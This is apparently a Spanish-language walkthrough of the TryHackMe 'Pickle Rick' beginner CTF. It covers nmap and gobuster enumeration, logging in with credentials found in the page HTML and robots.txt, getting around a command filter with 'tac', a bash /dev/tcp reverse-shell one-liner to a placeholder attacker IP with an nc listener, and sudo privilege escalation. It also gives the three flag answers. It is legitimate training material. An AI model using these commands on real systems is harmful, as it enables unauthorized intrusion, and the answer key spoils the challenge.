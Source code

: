 Pickle Rick es un CTF de nivel inicial de THM, en el cual se nos encomienda convertir nuevamente en humano a rick, que se encuentra convertido en pepinillo. Para esta tarea, debemos encontrar en la computadora de Rick los 3 ingredientes necesarios para que regrese a su estado de humano.

Primero realizamos la enumeración y el reconocimiento del sistema investigado

# Enumeración
## nmap
Utilizando el comando `nmap -sC -sV 10.10.242.104 -oN nmapPick` obtenemos los siguientes resultados:

![Pasted image 20230218112511](https://user-images.githubusercontent.com/24280145/222928607-be1992f4-4dd1-4fa3-90a8-a47f34a60522.png)

**puertos abiertos**

`http 80`

`ssh 22`

## curl
utilizando el comando  `curl 10.10.242.104 > cPick`

![Pasted image 20230218110137](https://user-images.githubusercontent.com/24280145/222929129-a3ba3365-6c73-4dac-93e1-e80f1da6bb2b.png)

Encontramos un nombre de usuario en el documento HTML 

`Username: R1ckRul3s`


## Gobuster
Utilizando el comando `gobuster -u http://10.10.242.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` obtenemos lo siguiente

![Pasted image 20230218113243](https://user-images.githubusercontent.com/24280145/222929984-b355969d-1b50-49a6-a771-f3c85499b9b2.png)

Buscamos directorios con extensión .php y .html  `gobuster -u http://10.10.242.104 -t 50 -w /usr/share/wordlists/dirbuster/common.txt -x .php,.html`

**Nota**: La lista common.txt fue extraida de: https://gitlab.com/kalilinux/packages/dirb/blob/f43c03a2bef91118debffd6cec9573f21bb5f9e8/wordlists/common.txt

Utilizamos el comando `sudo mv common.txt /usr/share/wordlists/dirbuster/common.txt` para mover el archivo a la carpeta dirbuster (no es obligatorio)

![Pasted image 20230218120112](https://user-images.githubusercontent.com/24280145/222931429-c6f3160d-2b68-4314-8626-86964a4cc6de.png)

Con este informe conocemos que:
**index.html**: Es la página de inicio
**robots.txt**: contiene la cadena *Wubbalubbadubdub*
**login.php**: Nos muestra el siguietne acceso:


![Pasted image 20230218121122](https://user-images.githubusercontent.com/24280145/222931472-ad4667ac-1308-471a-8f55-769c46c0aebe.png)

# Obtención de acceso
Utilizando el username encontrado en el código *html de la web* y la cadena encontrada en *robots.txt*. Accedemos como usuarios del sistema en el **Potal Login Page**:

`username: R1ckRul3s`

`password: Wubbalubbadubdub`

![Pasted image 20230218121459](https://user-images.githubusercontent.com/24280145/222931603-18fac2c4-282a-44c7-b3c7-8ca1131fdee5.png)

### Ejecutando comandos

`whoami`

![Pasted image 20230218122054](https://user-images.githubusercontent.com/24280145/222931694-116e2af5-70e2-4953-9cba-38fac3088d00.png)

`pwd`


![Pasted image 20230218122147](https://user-images.githubusercontent.com/24280145/222931709-50e0e38b-7484-4872-9cac-169d3a2421e5.png)

`ls`

![Pasted image 20230218122256](https://user-images.githubusercontent.com/24280145/222931737-3a581e02-86e7-4dac-ac5d-5e128010fe91.png)

¡¡Hemos hallado el primer ingrediente...¡¡ pero los comandos estan filtrados de lectura de texto, y no podemos ver el contenido del fichero que contiene el segundo ingrediente

![Pasted image 20230218122725](https://user-images.githubusercontent.com/24280145/222931819-4bf64ac4-2de0-435b-a6ac-f7fe8f0ad763.png)

En este escenario podemos buscar nuevas soluciones (como acceder al sistema) o buscar un comando que si funcione (no este filtrado). realizando la prueba con los comandos `more`,`head`,`vim` ... Realizando prueba y error hallamos el comando `tac`. 


**Nota**: Para conocer los comandos de lectura de texto podemos visitar: https://www.geeksforgeeks.org/tac-command-in-linux-with-examples/

![Pasted image 20230218134055](https://user-images.githubusercontent.com/24280145/222931961-4a6b708e-f7aa-4e61-8116-240356af7a87.png)

**primer ingrediente**: `-r. meeseek hair`

![Pasted image 20230218133953](https://user-images.githubusercontent.com/24280145/222932243-b3b0cb51-e3ad-48d6-97a7-ea6c08317ba8.png)

el archivo `clue.txt` nos da la pista para el siguietne ingrediente:

![Pasted image 20230218123816](https://user-images.githubusercontent.com/24280145/222932262-3ab34109-3715-4cab-a655-3dc7a8efc5a8.png)

*Busca en el sistema de archivos el otro ingrediente.*

# Reverse Shell
Usando el comando `/bin/bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/4444 0>&1'` en **Command Panel** abrimos el acceso al servidor.
posteriormente iniciamos un servidor de escucha con netcat: `nc -lvnp 4444` utilizando el puerto 4444

![Pasted image 20230218125944](https://user-images.githubusercontent.com/24280145/222932303-0d4eb873-a8e6-4dad-ae36-50e53ccec13a.png)

**Una vez dentro del sistema procedemos a navegar en los archivos**

![Pasted image 20230218130911](https://user-images.githubusercontent.com/24280145/222932321-6a4851e3-45a0-4464-844a-d09266cec24f.png)

En el directorio `home/rick/` hallamo el segundo ingrediente

![Pasted image 20230218131156](https://user-images.githubusercontent.com/24280145/222932345-9050b2e3-5386-4c08-818e-52446d8586b4.png)

**segundo ingrediente**: `jerry tear`

**Revisando los permisos, hallamos que la carpeta root no es accesible para los usuarios comunes**

![Pasted image 20230218132952](https://user-images.githubusercontent.com/24280145/222932378-d22be2b1-0447-438f-81d5-419e656a7c16.png)

# Escalamiento de privilegios 

En este caso la solución es relativamente sencilla pues el usuario www-data puede ejecutar con permiso sudo

![Pasted image 20230218132803](https://user-images.githubusercontent.com/24280145/222932420-4c878774-1fd7-471a-b0b8-711e63c43e5c.png)

**Ejecutamos bash como administrador**
Posteriormente ingresamos a la carpeta root `cd /root` y obtenemos el 3er ingrediente

![Pasted image 20230218133541](https://user-images.githubusercontent.com/24280145/222932655-ec7833ef-ecad-4ecb-a01a-92f181b2ed1d.png)

**tercer ingrediente**: `fleeb juice`
